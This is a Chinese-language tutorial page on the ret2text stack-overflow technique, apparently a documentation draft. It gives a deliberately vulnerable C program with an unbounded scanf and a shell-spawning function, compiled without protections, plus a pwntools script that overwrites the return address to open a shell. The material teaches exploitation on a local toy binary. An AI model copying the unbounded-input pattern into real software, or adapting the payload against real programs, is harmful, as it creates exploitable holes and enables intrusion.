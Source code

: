 ```yaml
---
title: "Ret2text"
description: "ret2text是栈溢出系列最基本的利用，它利用的是栈三大功能之一：保存函数返回后的地址"
lead: ""
date: 2023-03-28T17:09:39+08:00
lastmod: 2023-03-28T17:09:39+08:00
draft: true
images: []
menu:
  docs:
    parent: ""
    identifier: "ret2text-b405da19f3630198d79301207a8f0592"
weight: 999
toc: true
---
```


## 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell
![image-20230328171455488](./assets/image-20230328171455488.png)
举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {	// getshell函数
	system("/bin/sh");
}

void run(){	// 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
	char buf[0x10];	/* 局部变量 */
	printf("input: ");
	scanf("%s", buf);
}

int main(){
	run();
	return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看
![image-20230328171508952](./assets/image-20230328171508952.png)
然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量
![image-20230328171515114](./assets/image-20230328171515114.png)
可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为
![image-20230328171521599](./assets/image-20230328171521599.png)
覆盖后将变为
![image-20230328171526536](./assets/image-20230328171526536.png)
运行到ret看它的跳转方向
<img src="https://pic.imgdb.cn/item/63e50ecd4757feff33d3c23e.png" style="zoom:200%;" />
这个时候esp指向了getshell函数，即跳转去执行getshell函数
![image-20230328171534659](./assets/image-20230328171534659.png)
继续执行
![image-20230328171539893](./assets/image-20230328171539893.png)

